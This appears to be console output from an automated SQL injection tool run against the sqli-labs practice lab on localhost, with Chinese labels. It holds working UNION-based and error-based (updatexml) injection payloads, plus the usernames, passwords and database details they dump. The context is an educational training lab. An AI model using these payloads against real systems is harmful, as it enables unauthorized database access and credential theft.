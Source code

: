 联合注入payload： http://127.0.0.1/sqli-labs/Less-3/?id=1')  and 1 = 0 union select 1,version(),database() %23

5.5.53
security

联合注入payload： http://127.0.0.1/sqli-labs/Less-3/?id=1')  and 0 union SELECT 1,group_concat(username),group_concat(password) FROM users %23 
..
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4,562245610@qq.com
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4,123456



url: http://127.0.0.1/sqli-labs/Less-4
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ "  ] [ ")  ] [ok]
即将开始联合注入

........
select查询的字段数为:3

联合注入payload： http://127.0.0.1/sqli-labs/Less-4/?id=1")  and 1 = 0 union select 1,version(),database() %23

5.5.53
security

联合注入payload： http://127.0.0.1/sqli-labs/Less-4/?id=1")  and 0 union SELECT 1,group_concat(username),group_concat(password) FROM users %23 
..

Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4,562245610@qq.com
Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4,123456



url: http://127.0.0.1/sqli-labs/Less-5
判断闭合方式
[   ] [ '  ] [ok]
即将开始联合注入

........
select查询的字段数为:3

联合注入payload： http://127.0.0.1/sqli-labs/Less-5/?id=1'  and 1 = 0 union select 1,version(),database() %23

判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-5/?id=1'  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23

 5.5.53
报错注入成功
